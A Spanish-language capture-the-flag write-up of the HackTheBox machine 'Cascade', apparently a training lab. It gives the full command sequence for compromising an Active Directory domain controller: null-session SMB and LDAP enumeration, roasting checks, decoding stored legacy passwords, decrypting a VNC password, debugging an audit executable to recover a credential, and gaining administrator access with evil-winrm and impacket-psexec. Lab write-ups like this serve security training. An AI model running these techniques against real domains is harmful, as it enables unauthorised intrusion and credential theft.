

## Spoiler
---

<style>
  .spoiler-toggle {
    position: absolute;
    opacity: 0;
    pointer-events: none;
  }

  .spoiler-text {
    cursor: pointer;
    filter: blur(6px);
    opacity: 0.35;
    transition: filter 0.2s ease, opacity 0.2s ease;
  }

  .spoiler-toggle:checked + .spoiler-text {
    filter: none;
    opacity: 1;
    user-select: text;
  }
</style>

Hint 1:
<input class="spoiler-toggle" type="checkbox" id="step-1">
<label class="spoiler-text" for="step-1">
  Búsqueda por LDAP, siempre verifica los campos...
</label>

Hint 2:
<input class="spoiler-toggle" type="checkbox" id="step-2">
<label class="spoiler-text" for="step-2">
  Carpetas compartidas, siempre hay algo que esconder
</label>

Hint 3:
<input class="spoiler-toggle" type="checkbox" id="step-3">
<label class="spoiler-text" for="step-3">
  Bueno... toco debugear ejecutables
</label>

Hint 4:
<input class="spoiler-toggle" type="checkbox" id="step-4">
<label class="spoiler-text" for="step-4">
  Recordemos siempre lo que tenemos al principio, tal vez algún administrador eliminado...
</label>

## Writeupp
---

### Reconocimiento

Primero se realizará el escaneo de puertos y servicios de la máquina utilizando la herramienta `nmap`

```sh
sudo nmap -sS -Pn -n --min-rate 5000 10.129.85.10 -p- -sV -vvv -oN port-scan
```

```rb
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-10-18 16:45:16Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Dentro de lo descubierto por nmap podemos obtener el nombre del dominio asociado a la máquina víctima *cascade.local*, esto lo indexaremos dentro de nuestro archivo */etc/hosts*

```plaintext
(...)
# HackTheBox
10.129.85.10 cascade.local
```

Al estar abierto el puerto 445 y 139 entonces trataremos de enumerar usuarios dentro de la máquina, al no disponer de credenciales iniciales entonces procederemos a utilizar una **credencial nula** por medio del siguiente comando:

```sh
nxc smb cascade.local -u '' -p '' --users
```



Con esto podemos obtener todos los usuarios de la máquina objetivo, ahora intentaremos verificar si se es vvulnerable a un ataque de *kerberoasting* o *asreproast*

```sh
nxc ldap cascade.local -u '' -p '' --kerberoast output
nxc ldap cascade.local -u '' -p '' --asreproast output
```



No se tiene éxito, entonces iremos a realizar la búsqueda de objetos ldap del dominio *cascade.local* utilizando el siguiente comando:

```sh
ldapsearch -H ldap://10.129.85.10 -x -b 'DC=CASCADE,DC=LOCAL' '(objectClass=user)'
```



Notamos que de todos los objetos recibidos por cada usuario obtenemos que el usuario *r.thompson* dispone de un registro **cascadeLegacyPwd** el cual puede hacer mención a una posible contraseña en base64, para ello realizaremos la siguiiente comprobación:

```sh
❯ echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

Utilizaremos esta cadena de caracteres para tratar de obtener una credencial válida

```sh
❯ nxc smb cascade.local -u 'r.thompson' -p 'rY4n5eva'
SMB         10.129.85.10    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.85.10    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

Obtenemos con éxito una credencial válida :)

Ahora veremos los recursos compartidos de la máquina con el siguiente comando:

```sh
nxc smb cascade.local -u 'r.thompson' -p 'rY4n5eva' --shares
```



Disponemos de una carpeta compartida llamada *Data*, intentaremos enumerar los archivos que puedan tener en dicha carpeta

```sh
smbclient //cascade.local/Data -U 'r.thompson%rY4n5eva'
```



Dentro de los archivos importantes tenemos a  */Data/IT/Meeting_Notes_June_2018.html* y */Data/IT/temp/s.smith/VNC Install.reg*

Dentro del archivo *Meeting_Notes_June_2018.html* se encuentra lo siguiente



Quiere decir que si encontramos la contraseña de *TempAdmin* entonces podemos utilizarla para acceder como el usuario *Administrator*

En el archivo *VNC Install.reg* se puede encontrar una contarseña encriptada



Para obtener dicha contarseña nos apoyaremos de la información del siguient repositorio https://github.com/billchaison/VNCDecrypt

```sh
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```



Utilizaremos esta contraseña para conocer si le pertenece al usuario s.smith que es la carpeta donde encontramos el archivo *VNC Install.reg*

```sh
nxc smb cascade.local -u 's.smith' -p 'sT333ve2'
```



Con esto comprobamos la validéz de la credencial, ahora buscaremos si este usuario dispone de otros recursos compratidos dentro de la máquina además de los que ya disponía el usuario *r.thompson*

```sh
smbclient //cascade.local/Audit$ -U 's.smith%sT333ve2'
```

El archivo importante que descargartemos se encuentra en la ruta */Audit$/CascAudit.exe* */Audit$/DB/Audit.db* el cual es un archivo tipo *SQlite*, dicho archivo contiene una "contraseña" del usuario *ArkSvc*


 
Pero dicha "contraseña" no se puede obtener de manera convencional (base64), adicional a esto tambien se encuentra información sobre el usuario *TempAdmin* 



Es un usuario borrado, esa es la razón por la cual no lo encontramos en un primer barrido de usuarios. Sin emabrgo, seguimos sin obtener otra credencial válida :(

Entonces verificaremos el ejecutable *CascAudit.exe* para elllo utilizaremos la herramienta https://github.com/dnSpyEx/dnSpy



Lo que queremos enncontrar se encuentra dentro de *CascAudiot*



Al darle a *MainModule* podemos obtener el código 



Así obtenemos la "contraseña" *c4scadek3y654321* del usuario ArkSvc el cual procederemos a verificar

```sh
nxc smb cascade.local -u users -p 'c4scadek3y654321'
``` 



Sin embargo, no es de nadie jajaja, Lo que ocurre es que lo que parecía ser una contraseña en realidad parece ser más una clave criptográfica para obtener la verdadera contraseña.

Entonces procederemos a debugear la aplicación con dnSpy para poder obtener ese valor :), para realizar esto debemos obtener todos los archivos de la ruta compartida */Audit$/*

```sh
❯ smbclient //cascade.local/Audit$ -U 's.smith%sT333ve2'
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```



> [!note]
> Para que el debugeo funcione se debe comocar todos los archivos tal como se han descargado (misma estructura de carpetas)
> Adicional a esto se debe agregar un parámetro a la ejecución el cual es la dirección del archivo *Audit.db*





Ahora obtebemos el string *w3lc0meFr31nd*, verificaremos si pertenece a algún usuario

```sh
nxc smb cascade.local -u users -p 'w3lc0meFr31nd'
```



Es entonces donde obtenemos la credencial *arksvc:w3lc0meFr31nd*, veririfamos ahora si se puede loguear vía WinRM

```sh
❯ nxc winrm cascade.local -u arksvc -p 'w3lc0meFr31nd'
WINRM       10.129.87.6     5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local) 
WINRM       10.129.87.6     5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```

Éxito, entonces tenemos acceso a la máquina vía *arksvc*

```sh
evil-winrm -u arksvc -p 'w3lc0meFr31nd' -i cascade.local
```



Ahora, recordemos que existe un usuario eliminado llamado TempAdmin, para enumerar en un principio los usuarios eliminados ejecutaremos el siguiente comando en powershell

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```



Notamos además un atributo llamado *cascadeLegacyPwd* 



Al desencriptarlo por base64 se obtiene lo siguiente::

```sh
❯ echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

Recordemos nuevamente **"la contraseña de TempAdmin es la misma que la del administrador"**, entonces probaremos si eso es cierto



Efectivamente, obtenemos la contraseña del administrador, la usaremos para ingresar con altos privilegios en la máquina

```sh
impacket-psexec cascade.local/administrator:baCT3r1aN00dles@10.129.87.6
```

